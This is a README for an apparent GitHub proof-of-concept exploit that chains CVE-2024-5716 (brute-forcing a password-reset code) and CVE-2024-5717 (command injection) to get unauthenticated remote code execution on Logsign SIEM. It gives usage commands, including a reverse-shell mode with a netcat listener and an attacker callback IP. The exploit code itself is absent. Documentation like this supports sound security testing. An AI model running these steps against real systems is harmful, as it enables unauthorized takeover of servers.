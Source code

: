 # Logsign SIEM RCE Exploit (CVE-2024-5716 & CVE-2024-5717)

This tool is a proof-of-concept (PoC) exploit that combines two critical vulnerabilities in the Logsign Unified SecOps Platform (SIEM) to achieve unauthenticated remote code execution (RCE).

## Description

The exploit chains two vulnerabilities:

**CVE-2024-5716 (Authentication Bypass):**  
A flaw in the password reset mechanism allows the 6-digit reset code to be brute-forced without rate limiting. This script uses multi-threading to quickly identify the reset code and reset the admin user's password.

**CVE-2024-5717 (Command Injection):**  
Once logged in as an admin user, the `/api/settings/demo_mode` API endpoint fails to properly validate user input, allowing arbitrary command injection and execution on the target system.

By combining these vulnerabilities, an attacker can gain full control over the target system.

## Features

- Automatically chains CVE-2024-5716 and CVE-2024-5717.
- Resets the admin user's password to gain system access.
- Supports three modes for remote code execution (RCE):
  - **Default PoC**: Executes `id > /tmp/logsign_pwned.txt` on the target system.
  - **Single Command Execution**: Runs a user-specified command.
  - **Reverse Shell**: Establishes an interactive shell session to a specified IP and port.
- Detailed logging for debugging with `--debug` mode.

## Installation and Requirements

**Clone the project files:**

```
git clone https://github.com/sevbandonmez/logsign-rce.git
cd logsign-rce
```

## Install the required Python library

```pip install requests```


## Usage
The script can be executed with various command-line arguments.

```
usage: exploit.py [-h] -t TARGET [-rh REVERSE_HOST] [-rp REVERSE_PORT] [-c COMMAND] [-d]

Logsign RCE Exploit Tool

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target URL (e.g., https://example.com:8443)
  -rh REVERSE_HOST, --reverse-host REVERSE_HOST
                        Reverse shell IP address
  -rp REVERSE_PORT, --reverse-port REVERSE_PORT
                        Reverse shell port
  -c COMMAND, --command COMMAND
                        Custom command to execute
  -d, --debug           Enable debug logging
```

### Example 1: Default PoC
This mode creates a file /tmp/logsign_pwned.txt on the target system to prove the vulnerability.

```python3 exploit.py -t https://192.168.1.100```

Check the file on the target system: cat /tmp/logsign_pwned.txt.
### Example 2: Single Command ExecutionRun a single command, such as whoami, on the target system:

```python3 exploit.py -t https://192.168.1.100 -c "whoami"```

### Example 3: Reverse Shell
This mode provides an interactive command-line shell on the target system.

**Step 1:* Start a listener on the attacker's machine using Netcat:**

```nc -lvnp 4444```

**Step 2:* Run the exploit, specifying your IP address and port:**

```python3 exploit.py -t https://192.168.1.100 -rh 192.168.1.20 -rp 4444```

If successful, a shell session will appear in your Netcat listener.

## Debugging
If the script fails or produces unexpected errors, enable detailed logging with the --debug flag:

```python3 exploit.py -t https://192.168.1.100 -rh 192.168.1.20 -rp 4444 --debug```

## Special Thanks
Endless thanks to **@mdisec** for the identified CVE vulnerabilities <3. 

## Legal Disclaimer
This tool is developed solely for authorized security testing and educational purposes. Unauthorized use of this tool for illegal activities is strictly prohibited. Any damage or legal consequences resulting from the use of this tool are the sole responsibility of the user. The developer is not liable for any misuse of this tool.

## LICENSE
This project is licensed under the MIT License. See the LICENSE file for details.

## References
[Logsign Support](https://support.logsign.net/hc/en-us/articles/19316621924754-03-06-2024-Version-6-4-8-Release-Notes)<br>
[Zero Day Inititive](https://www.zerodayinitiative.com/blog/2024/7/1/getting-unauthenticated-remote-code-execution-on-the-logsign-unified-secops-platform)<br>
[Writeup](https://medium.com/@sevbandonmez/zero-day-review-critical-vulnerabilities-in-logsign-unified-secops-platform-versions-6-4-7-69bbec653b3a)

